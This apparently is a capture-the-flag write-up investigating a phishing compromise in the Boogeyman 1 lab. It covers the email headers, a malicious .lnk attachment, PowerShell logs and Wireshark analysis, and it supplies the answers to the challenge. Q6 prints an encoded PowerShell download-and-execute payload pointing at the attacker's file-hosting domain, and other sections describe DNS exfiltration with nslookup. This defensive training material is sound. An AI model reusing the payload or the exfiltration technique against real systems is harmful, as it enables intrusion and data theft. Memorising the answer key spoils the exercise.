# Boogeyman 1: Phishing Attack Investigation

## Scenario
Julianne, a finance employee at Quick Logistics LLC, received a phishing email posing as a follow-up on an unpaid invoice from B Packaging Inc. The email contained a malicious attachment that compromised her workstation. The security team flagged the suspicious execution and received additional phishing reports from the finance department, indicating a targeted attack on the finance team. The tactics, techniques, and procedures (TTPs) align with the Boogeyman threat group, known for targeting the logistics sector. This investigation analyzes the phishing email, endpoint logs, and network traffic to assess the compromise's impact, focusing on initial access, enumeration, exfiltration, and command-and-control (C2) activities.

## Challenge Questions and Findings

### Phishing Email Analysis
#### 1. Sender Email Address
**Question**: What is the email address used to send the phishing email?

**Answer**: `agriffin@bpakcaging.xyz`

**Investigation**: Opened `dump.eml` in Thunderbird and extracted the sender’s email address from the headers.



#### 2. Victim Email Address
**Question**: What is the email address of the victim?

**Answer**: `julianne.westcott@hotmail.com`

**Investigation**: Identified the recipient’s email address in the `To` field of `dump.eml` using Thunderbird.



#### 3. Third-Party Mail Relay Service
**Question**: What is the name of the third-party mail relay service used by the attacker based on the DKIM-Signature and List-Unsubscribe headers?

**Answer**: `elasticemail`

**Investigation**: Searched `dump.eml` for DKIM-Signature and List-Unsubscribe headers, confirming `elasticemail` as the mail relay service.



#### 4. File Inside Encrypted Attachment
**Question**: What is the name of the file inside the encrypted attachment?

**Answer**: `Invoice_20230103.lnk`

**Investigation**: Downloaded the attachment from `dump.eml` in Thunderbird, identifying `Invoice_20230103.lnk`.



#### 5. Password of Encrypted Attachment
**Question**: What is the password of the encrypted attachment?

**Answer**: `Invoice2023!`

**Investigation**: Extracted the password required to open the encrypted attachment from `dump.eml`.



#### 6. Encoded Payload in Command Line Arguments
**Question**: Based on the result of the lnkparse tool, what is the encoded payload found in the Command Line Arguments field?

**Answer**: `aQBlAHgAIAAoAG4AZQB3AC0AbwBiAGoAZQBjAHQAIABuAGUAdAAuAHcAZQBiAGMAbABpAGUAbgB0ACkALgBkAG8AdwBuAGwAbwBhAGQAcwB0AHIAaQBuAGcAKAAnAGgAdAB0AHAAOgAvAC8AZgBpAGwAZQBzAC4AYgBwAGEAawBjAGEAZwBpAG4AZwAuAHgAeQB6AC8AdQBwAGQAYQB0AGUAJwApAA==`

**Investigation**: Used `lnkparse` to analyze `Invoice_20230103.lnk`, extracting the base64-encoded payload from the Command Line Arguments field.



### Endpoint and Network Analysis
#### 7. Domains Used for File Hosting and C2
**Question**: What are the domains used by the attacker for file hosting and C2? Provide the domains in alphabetical order. (e.g. a.domain.com,b.domain.com)

**Answer**: `cdn.bpakcaging.xyz,files.bpakcaging.xyz`

**Investigation**: Used `jq` to parse PowerShell logs in JSON format, grepping for `.xyz` domains, identifying `cdn.bpakcaging.xyz` (C2) and `files.bpakcaging.xyz` (file hosting).



#### 8. Enumeration Tool Downloaded
**Question**: What is the name of the enumeration tool downloaded by the attacker?

**Answer**: `seatbelt`

**Investigation**: Found `seatbelt` in PowerShell logs as the downloaded enumeration tool executed post-compromise.



#### 9. File Accessed by sq3.exe
**Question**: What is the file accessed by the attacker using the downloaded sq3.exe binary? Provide the full file path with escaped backslashes.

**Answer**: `C:\\Users\\j.westcott\\AppData\\Local\\Packages\\Microsoft.MicrosoftStickyNotes_8wekyb3d8bbwe\\LocalState\\plum.sqlite`

**Investigation**: Identified `plum.sqlite` accessed by `sq3.exe` in PowerShell logs, with the full path as shown.

 

#### 10. Software Using the File
**Question**: What is the software that uses the file in Q3?

**Answer**: `Microsoft Sticky Notes`

**Investigation**: Confirmed `plum.sqlite` is used by Microsoft Sticky Notes, per PowerShell log analysis.



#### 11. Exfiltrated File
**Question**: What is the name of the exfiltrated file?

**Answer**: `protected_data.kdbx`

**Investigation**: Identified `protected_data.kdbx` as the exfiltrated file in PowerShell logs.



#### 12. File Type of .kdbx Extension
**Question**: What type of file uses the .kdbx file extension?

**Answer**: `keepass`

**Investigation**: Determined that `.kdbx` is a KeePass database file used for password management.



#### 13. Encoding Used in Exfiltration
**Question**: What is the encoding used during the exfiltration attempt of the sensitive file?

**Answer**: `hex`

**Investigation**: Analyzed PowerShell logs, confirming hex encoding for the exfiltration of `protected_data.kdbx`.

#### 14. Tool Used for Exfiltration
**Question**: What is the tool used for exfiltration?

**Answer**: `nslookup`

**Investigation**: Identified `nslookup` in PowerShell logs as the tool used for DNS-based exfiltration.



#### 15. Software Hosting File/Payload Server
**Question**: What software is used by the attacker to host its presumed file/payload server?

**Answer**: `python`

**Investigation**: Filtered HTTP packets in Wireshark for `files.bpakcaging.xyz`, revealing Python as the hosting software in the TCP stream response.



#### 16. HTTP Method for C2 Command Output
**Question**: What HTTP method is used by the C2 for the output of the commands executed by the attacker?

**Answer**: `POST`

**Investigation**: Analyzed HTTP packets for `cdn.bpakcaging.xyz` in Wireshark, confirming the `POST` method for command output.



#### 17. Protocol for Exfiltration
**Question**: What is the protocol used during the exfiltration activity?

**Answer**: `dns`

**Investigation**: Confirmed DNS protocol for exfiltration via `nslookup` in PowerShell logs and packet captures.



#### 18. Password of Exfiltrated File
**Question**: What is the password of the exfiltrated file?

**Answer**: `%p9^3!lL^Mz47E2GaT^y`

**Investigation**: Extracted the password for `protected_data.kdbx` from PowerShell logs and packet captures.

    

#### 19. Credit Card Number in Exfiltrated File
**Question**: What is the credit card number stored inside the exfiltrated file?

**Answer**: `4024007128269551`

**Investigation**: Decoded the exfiltrated `protected_data.kdbx` (using the password), revealing the credit card number in PowerShell logs and packet captures.

   

